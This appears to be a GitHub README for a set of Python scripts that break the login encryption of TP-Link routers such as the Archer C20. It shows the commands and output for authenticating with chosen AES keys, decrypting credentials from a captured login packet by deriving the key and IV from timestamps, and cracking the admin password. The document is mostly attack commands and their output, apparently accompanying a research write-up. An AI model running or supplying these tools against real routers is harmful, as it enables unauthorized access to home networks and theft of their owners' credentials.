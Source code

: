 # TP-Link GDPR

Scripts that break TP-Link's attempt at GDPR compliance. To learn more, visit the full write-up [here]().

## Authenticate

```bash
python3 authenticate.py 192.168.0.1 password123
[*] Connecting to router at 192.168.0.1
[+] Found supported device: Archer C20 AC750 Wireless Dual Band Router
[+] RSA n: E70029629FA45445EC5D1048E287E98839A2B481E8E83940BB8C339515C57B197D8F593F4806E51829C69116A41002125EFEF7D0DB73DA8CC98A931903ED4D35
[+] RSA e: 010001
[+] Sequence: 488263223
[*] Setting AES key to AAAAAAAAAAAAAAAA
[*] Setting AES IV to BBBBBBBBBBBBBBBB
[+] JSESSIONID: 69edac0c5021e874e4b436fdded7f4
[+] Successfully authenticated with the router
```

## Decrypt Credentials

```bash
python3 decrypt_creds.py ./bin/login.pcapng
[+] Found a login packet
[*] Login request packet captured at Unix epoch time 1618851624.846030723
[+] AES Key: 1618851624837207
[+] AES IV: 1618851624837491
8
[/cgi/login#0,0,0,0,0,0#0,0,0,0,0,0]0,2
username=admin
password=password123
```

## Password Crack

```bash
python3 password_crack.py
Cracked the password after 3 attempts. The password is "password123", enjoy!
```
